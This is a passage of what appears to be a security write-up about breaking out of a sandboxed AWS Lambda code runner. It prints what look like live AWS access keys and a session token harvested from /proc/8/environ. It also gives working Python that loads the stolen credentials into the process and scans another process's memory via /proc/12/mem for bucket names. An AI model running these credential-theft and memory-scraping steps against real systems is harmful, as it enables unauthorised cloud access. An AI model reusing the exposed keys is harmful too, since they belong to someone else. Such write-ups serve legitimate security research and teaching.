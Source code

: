 A bit better but no secrets yet... Let's try the next level down (`pid8`)

```dotenv
AWS_ACCESS_KEY_ID=ASIA5SWNPC4VJHOG5IFQ
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SECRET_ACCESS_KEY=mJTn2w0rBvQ0n/nwRlI3foc7xd2B7vvRjVECSpbT
AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEH4aCXVzLXdlc3QtMSJGMEQCICBjsX1Icz...
```

HA, so now we have a place to get access keys from... We'll make it easy and just add those to our ENV of the running process we control...

```python
with open('/proc/8/environ', 'r') as f:
    data = f.read()

env_list = data.split('\x00')
for l in env_list:
    try:
        key, value = l.split('=', 1)
        os.environ[key] = value
        if key in ['AWS_SECRET_ACCESS_KEY', 'AWS_ACCESS_KEY_ID', 'AWS_SESSION_TOKEN']:
            print(l)
    except:
        pass
```

Nice... OK now we have boto3, we have access keys, and we can check to see if we can access s3 ourselves...

```python
Traceback (most recent call last):
   result = getSum(A, B, C)
   print(s3_client.list_buckets())
 File "/var/runtime/botocore/client.py", line 386, in _api_call
   return self._make_api_call(operation_name, kwargs)
 File "/var/runtime/botocore/client.py", line 705, in _make_api_call
   raise error_class(parsed_response, operation_name)
botocore.exceptions.ClientError: An error occurred (AccessDenied) when calling the ListBuckets operation: Access Denied
```

Well shoot... IAM is locked down... how do we go about getting the bucket name?

---

## Finding relevant information in memory

It's got to be there somewhere in memory on the machine. The handler is `python`, it's doing logging and tracing... let's go through the mapped memory and see if we can find something, this time using `pid 12`, which is the `bootstrap.py`
process calling the script that triggers our code...:

```python
    try:
        maps_file = open("/proc/12/maps", 'r')
        mem_file = open("/proc/12/mem", 'rb', 0)
        # output_file = open("/tmp/self.dump", 'wb')
        for line in maps_file.readlines():  # for each mapped region
            m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
            if m.group(3) == 'r':  # if this is a readable region
                start = int(m.group(1), 16)
                end = int(m.group(2), 16)
                mem_file.seek(start)  # seek to region start
                chunk = mem_file.read(end - start)  # read region contents
                offsets = [m.start() for m in re.finditer(b's3_bucket', chunk)]
                for offset in offsets:
                    # print(f'checking offset: {offset}')
```